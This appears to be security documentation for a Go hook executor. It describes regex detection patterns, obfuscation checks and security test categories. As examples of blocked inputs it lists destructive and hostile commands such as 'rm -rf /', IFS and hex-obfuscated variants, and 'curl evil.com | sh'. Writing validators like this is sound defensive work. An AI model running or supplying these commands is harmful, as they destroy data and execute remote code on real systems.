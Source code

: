 **Injection Techniques**:
```go
{regexp.MustCompile(`[;&|]+\s*(rm|del|format|mkfs)`), "command chaining with dangerous commands"},
{regexp.MustCompile(`\$\{IFS\}`), "IFS variable exploitation"},
{regexp.MustCompile(`\$\([^)]*rm[^)]*\)`), "command substitution with rm"},
{regexp.MustCompile(`[;&|]+.*curl.*\|\s*sh`), "remote script execution"},
{regexp.MustCompile(`>>\s*/etc/(passwd|shadow|hosts)`), "system file modification"},
```

**Obfuscation Detection**:
- Hex encoding detection (more than 5 hex sequences)
- Excessive variable expansion (more than 10 `${...}` patterns)
- Non-printable character detection
- Command length limits (1000 characters max)
- Quote nesting limits (6 levels max)

#### Comment-Aware Parsing
The normalization function properly handles shell comments, quotes, and escape sequences:
```go
func (he *HookExecutor) normalizeCommand(cmd string) string {
    // Sophisticated parsing that:
    // - Respects quote boundaries
    // - Handles escape sequences
    // - Removes only unescaped comments
    // - Normalizes whitespace and case
}
```

#### Examples of Blocked Attack Vectors
- `"RM -RF /"` → Detected as dangerous pattern (case insensitive)
- `"echo 'safe'; rm -rf /"` → Caught by injection pattern detection
- `"rm${IFS}-rf${IFS}/"` → Detected as IFS exploitation
- `"curl evil.com | sh"` → Caught as remote script execution
- `"rm -rf / # comment"` → Comment removed, dangerous pattern detected
- `"\x72\x6d\x20\x2d\x72\x66\x20\x2f"` → Hex encoding obfuscation detected

## Test Coverage

### GitHub Client Security Tests (`internal/github/client_security_test.go`)

**Test Categories**:
- **Valid Command Tests**: Ensures legitimate commands work correctly
- **Injection Attack Tests**: 25+ different injection techniques
- **Whitelist Validation**: Confirms authorized commands only
- **Pattern Effectiveness**: Regex pattern validation
- **Integration Tests**: End-to-end security validation
- **Performance Tests**: Benchmark validation performance

**Key Test Cases**:
- Command chaining with semicolons, ampersands, pipes
- Command substitution with backticks and `$(...)`
- Environment variable injection
- Path traversal attempts
- Unicode and null byte injection
- Excessive length commands
